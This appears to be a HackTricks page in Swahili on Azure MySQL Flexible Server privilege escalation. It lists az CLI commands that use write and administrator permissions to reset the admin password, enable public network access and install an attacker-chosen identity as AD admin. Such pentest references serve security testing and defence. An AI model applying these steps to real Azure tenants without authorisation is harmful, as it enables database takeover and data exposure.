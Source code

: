 # Az - MySQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MySQL Database Privesc
Kwa maelezo zaidi kuhusu SQL Database angalia:

{{#ref}}
../az-services/az-mysql.md
{{#endref}}

### `Microsoft.DBforMySQL/flexibleServers/read` && `Microsoft.DBforMySQL/flexibleServers/write`

Kwa ruhusa hii, unaweza kuunda, kusasisha, au kufuta mifano ya MySQL Flexible Server kwenye Azure. Hii inajumuisha kutoa seva mpya, kubadilisha mipangilio ya seva zilizopo, au kufunga seva.
```bash
az mysql flexible-server create \
--name <ServerName> \
--resource-group <ResourceGroupName> \
--location <Location> \
--admin-user <AdminUsername> \
--admin-password <AdminPassword> \
--sku-name <SkuName> \
--storage-size <StorageSizeInGB> \
--tier <PricingTier> \
--version <MySQLVersion>
```
Kwa mfano, ruhusa hizi zinaruhusu kubadilisha nenosiri la MySQL, muhimu bila shaka ikiwa uthibitishaji wa MySQL umewezeshwa.
```bash
az mysql flexible-server update \
--resource-group <resource_group_name> \
--name <server_name> \
--admin-password <password_to_update>
```
Vilevile, ni muhimu kuwa na ufikiaji wa umma ulioanzishwa ikiwa unataka kufikia kutoka kwa kiunganishi kisichokuwa cha kibinafsi, ili kuuwezesha:
```bash
az mysql flexible-server update --resource-group <resource_group_name> --server-name <server_name> --public-access Enabled
```
### `Microsoft.DBforMySQL/flexibleServers/read`, `Microsoft.DBforMySQL/flexibleServers/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, `Microsoft.DBforMySQL/flexibleServers/administrators/write` && `Microsoft.DBforMySQL/flexibleServers/administrators/read`

Kwa ruhusa hii, unaweza kuunda wasimamizi wa Azure Active Directory (AD) kwa seva ya MySQL Flexible. Hii inaweza kutumiwa vibaya kwa kujipatia au kuweka akaunti nyingine kama msimamizi wa AD, ikitoa udhibiti kamili wa usimamizi juu ya seva ya MySQL. Ni muhimu kwamba seva ya flexible-server iwe na utambulisho wa usimamizi wa mtumiaji uliotolewa ili kutumika.
```bash
az mysql flexible-server ad-admin create \
--resource-group <ResourceGroupName> \
--server-name <ServerName> \
--display-name <ADAdminDisplayName> \
--identity <IdentityNameOrID> \
--object-id <ObjectID>
```
{{#include ../../../banners/hacktricks-training.md}}
